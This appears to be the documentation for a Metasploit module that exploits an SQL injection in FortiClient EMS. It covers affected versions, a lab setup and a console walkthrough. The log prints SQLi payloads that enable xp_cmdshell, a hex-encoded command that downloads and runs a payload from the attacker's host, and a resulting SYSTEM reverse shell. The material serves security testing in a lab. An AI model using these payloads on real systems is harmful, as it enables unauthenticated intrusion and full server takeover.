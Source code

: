 ## Vulnerable Application
An SQLi injection vulnerability exists in FortiNet FortiClient EMS (Endpoint Management Server).
FortiClient EMS serves as an endpoint management solution tailored for enterprises, offering a centralized
platform for overseeing enrolled endpoints. The SQLi is vulnerability is due to user controller strings which
can be sent directly into database queries.

FcmDaemon.exe is the main service responsible for communicating with enrolled clients. By default it listens on port 8013
and communicates with FCTDas.exe which is responsible for translating requests and sending them to the database.
In the message header of a specific request sent between the two services, the FCTUID parameter is vulnerable
SQLi. The SQLi can used to enable the xp_cmdshell which can then be used to obtain unauthenticated remote code
execution in the context of NT AUTHORITY\SYSTEM

Affected versions of FortiClient EMS include:
 7.2.0 through 7.2.2
 7.0.1 through 7.0.10

Upgrading to either 7.2.3, 7.0.11 or above is recommended by FortiNet.

It should be noted that in order to be vulnerable, at least one endpoint needs to be enrolled / managed by FortiClient
EMS for the necessary vulnerable services to be available.

### Setup
You'll need two Windows hosts. One domain controller and one Windows 10 host (a domain controller might not be 100%
necessary however I used one and if you choose not to, your installation mileage may vary). The Windows 10 host will eventually
install the FortiClient EMS Client and will be managed by our FortiClient EMS Server to enable the services required
to exploit this vulnerability on the EMS Server. On the Windows 10 host set the the following Services to the following Startup Types:
 - Task Scheduler: Automatic
 - Windows Installer: Manual
 - Remote Registry: Automatic

Then either disable Windows Firewall completely or configure to allow the following inbound connections:
 - File and Printer Sharing (SMB-In)
 - Remote Scheduled Tasks Management (RPC)

Now on the domain controller download the installer `FortiClientEndpointManagementServer_7.0.7.0398_x64.exe`. You will need
a FortiNet account to request a free trial.

On the domain controller launch the installer. When it completes within the application you will be presented with a sign in page.
Enter username: "admin" with a blank password and click "Sign in" - this will prompt you to create a new password for the admin user.
Then authenticate with the new password.
A pop up window reading: "We didn't find any licenses for this EMS..." click "Try Free" and sign in with your FortiNet
account to request a free trial.

Once FortiClient EMS has been launched, in the left hand side select System Settings > EMS Settings, then under Shared
Settings select "Use FQDN" and input the domain controller's FQDN. Ensure the FQDN is accessible by pinging it from the cmdline.
A pop up window reading: "The server will need to restart..." click "Yes".

Scroll down to "EMS Settings". In the "FortiClient Download URL" replace the IP address with the domain controller's FQDN.
Click save.

Next select System Settings > FortiGuard Services under Cloud Services set the timezone your server is located in.
Click Save.

Under "Deployment & Installers" > "FortiClient Installer" on the right hand side select "Add". A pop up window will appear.

For "Installer Type" select "Choose an official release". For "Release", choose 7.0 and for "Patch" choose 7.0.7 , click next.
For "Name" input "FCT_707" click next.
Keep all the defaults for the Features section and click next.
Keep all the defaults for the Advanced section and click next and then click Finish.

Now you should have a Deployment Package with a Download Link. Navigate to that download link on your Windows 10 host
and download and install the .msi package. Once installed correctly you should see the Windows 10 host appear under the
"Endpoint" tab in the EMS Server. FortiClient EMS Server should now be exploitable.

## Verification Steps

1. Start msfconsole
1. Do: `use windows/http/forticlient_ems_fctid_sqli`
1. Set the `RHOST` and `LHOST` options
1. Run the module
1. Receive a Meterpreter session running in the context of `NT AUTHORITY\SYSTEM`

## Scenarios
### FortiClient EMS 7.07.0398_x64 running on Windows Server 2019 (Domain Controller)
```
msf6 exploit(windows/http/forticlient_ems_fctid_sqli) > set rhosts 172.16.199.200
rhosts => 172.16.199.200
msf6 exploit(windows/http/forticlient_ems_fctid_sqli) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(windows/http/forticlient_ems_fctid_sqli) > options

Module options (exploit/windows/http/forticlient_ems_fctid_sqli):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  172.16.199.200   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   8013             yes       The target port (TCP)
   VHOST                    no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      FqgyHVSnYd       no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT               8383             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/forticlient_ems_fctid_sqli) >
msf6 exploit(windows/http/forticlient_ems_fctid_sqli) > run
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:8383
[*] 172.16.199.200:8013 - Running automatic check ("set AutoCheck false" to disable)
[+] 172.16.199.200:8013 - The target is vulnerable. The SQLi has been exploited successfully
[+] 172.16.199.200:8013 - The SQLi: ' OR 1=1; exec master.dbo.sp_configure 'show advanced options', 1;-- was executed successfully
[+] 172.16.199.200:8013 - The SQLi: ' OR 1=1; reconfigure;-- was executed successfully
[+] 172.16.199.200:8013 - The SQLi: ' OR 1=1; exec master.dbo.sp_configure 'xp_cmdshell',1;-- was executed successfully
[+] 172.16.199.200:8013 - The SQLi: ' OR 1=1; reconfigure;-- was executed successfully
[*] Sending stage (201798 bytes) to 172.16.199.200
[+] 172.16.199.200:8013 - The SQLi: ' OR 1=1; DECLARE @SQL VARCHAR(120) = CONVERT(VARCHAR(MAX), 0X636572747574696c202d75
726c6361636865202d6620687474703a2f2f3137322e31362e3139392e313a383038302f7a524b42764743776d624662474c46336c4e6f486d772025
54454d50255c6a744d45695362632e6578652026207374617274202f42202554454d50255c6a744d45695362632e657865); exec master.dbo.xp_cmdshell @sql;-- was executed successfully
[*] Meterpreter session 8 opened (172.16.199.1:8383 -> 172.16.199.200:57847) at 2024-04-11 14:00:22 -0700

meterpreter > getuid
syServer username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC2
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : KERBEROS
Logged On Users : 16
Meterpreter     : x64/windows
meterpreter >
```
